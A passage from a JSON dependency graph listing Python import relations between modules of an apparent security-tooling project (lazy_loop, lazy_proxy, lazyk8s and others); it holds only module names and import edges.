"EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "smtplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "email.message"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_installer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_installer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.custom_tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.custom_tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_roles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.lazy_roles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_finding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_mentions.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "http.client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.hazmat.primitives.asymmetric"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.x509.oid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.hazmat.primitives.asymmetric"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_proxy.py", "target": "cryptography.x509.oid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "pyotp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_rbac.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_roles.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "core.autonomous"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "core.terminal_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "faulthandler"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.jsonl_tail"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.custom_tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "modules.lazy_sandbox"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_runner.py", "target": "cli.lazy_monitor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_sandbox.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skill_mirror.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skills.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skills.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_skills.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_summarizer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_summarizer.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazycloud.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyencoder_decoder.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "http.client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyk8s.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazyown_bprfuzzer.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": 